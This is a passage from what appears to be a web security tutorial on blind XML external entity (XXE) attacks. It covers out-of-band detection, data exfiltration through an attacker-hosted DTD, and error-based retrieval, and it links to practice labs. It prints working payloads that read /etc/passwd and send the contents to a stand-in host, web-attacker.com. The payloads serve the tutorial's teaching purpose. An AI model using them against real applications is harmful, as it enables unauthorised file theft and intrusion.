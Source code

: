 This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.

Here is a lab that covers this topic: [blind_xxe_bypass_input_validation_with_XML_parameter_entities](labs/blind_xxe_bypass_input_validation_with_XML_parameter_entities.md)

## Exploiting blind XXE to exfiltrate data out-of-band

Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is as follows:
`<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>"> %eval; %exfiltrate;`

This DTD carries out the following steps:

- Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
- Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `exfiltrate`. The `exfiltrate` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the `file` entity within the URL query string.
- Uses the `eval` entity, which causes the dynamic declaration of the `exfiltrate` entity to be performed.
- Uses the `exfiltrate` entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

`http://web-attacker.com/malicious.dtd`

Finally, the attacker must submit the following XXE payload to the vulnerable application:
`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>`

This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the `/etc/passwd` file is transmitted to the attacker's server.

Here is a lab that covers this topic: [blind_xxe_data_exfiltration_external_dtd](labs/blind_xxe_data_exfiltration_external_dtd.md)
## Exploiting blind XXE to retrieve data via error messages
An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. This will be effective if the application returns the resulting error message within its response.

You can trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows:

`<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> %eval; %error;`
